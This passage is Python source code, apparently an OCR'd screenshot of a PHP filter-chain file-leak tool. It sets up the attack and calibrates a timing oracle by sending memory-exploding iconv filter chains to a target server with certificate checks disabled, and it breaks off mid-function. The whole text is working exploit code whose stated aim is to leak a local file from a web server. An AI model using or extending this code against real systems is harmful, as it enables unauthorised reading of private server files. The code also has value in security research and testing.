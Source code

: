 ```python
        print("[*] The following local file is leaked : {}".format(self.file_to_leak))
        print("[*] Running {} requests".format(self.verb.name))
        if data != "{}":
            print("[*] Additionnal data used : {}".format(data))
        if headers != "{}":
            print("[*] Additionnal headers used : {}".format(headers))
        if in_chain != "":
            print("[*] The following chain will be in each request : {}".format(in_chain))
            in_chain = "|convert.iconv.{}".format(in_chain)
        if match:
            print("[*] The following pattern will be matched for the oracle : {}".format(match))
        self.in_chain = in_chain
        self.data = json.loads(data)
        self.headers = json.loads(headers)
        self.delay = float(delay)
        if proxy :
            self.proxies = {
                'http': f'{proxy}',
                'https': f'{proxy}',
            }
        else:
            self.proxies = None
        self.instantiate_session()
        if time_based_attack:
            self.time_based_attack = self.error_handling_duration()
            print("[+] Error handling duration : {}".format(self.time_based_attack))
        else:
            self.time_based_attack = False
        
    """
    Instantiates a requests session for optimization
    """
    def instantiate_session(self):
        self.session = requests.Session()
        self.session.headers.update(self.headers)
        self.session.proxies = self.proxies
        self.session.verify = False



    def join(self, *x):
        return '|'.join(x)

    """
    Used to see how much time a 500 error takes to calibrate the timing attack
    """
    def error_handling_duration(self):
        chain = "convert.base64-encode"
        requ = self.req_with_response(chain)
        self.normal_response_time = requ.elapsed.total_seconds()
        self.blow_up_utf32 = 'convert.iconv.L1.UCS-4'
        self.blow_up_inf = self.join(*[self.blow_up_utf32]*15)
        chain_triggering_error = f"convert.base64-encode|{self.blow_up_inf}"
        requ = self.req_with_response(chain_triggering_error)
        return requ.elapsed.total_seconds() - self.normal_response_time

    """
    Used to parse the option parameter sent by the user
    """
    def parse_parameter(self, filter_chain):
        data = {}
        if '[' and ']' in self.parameter: # Parse array elements
            
```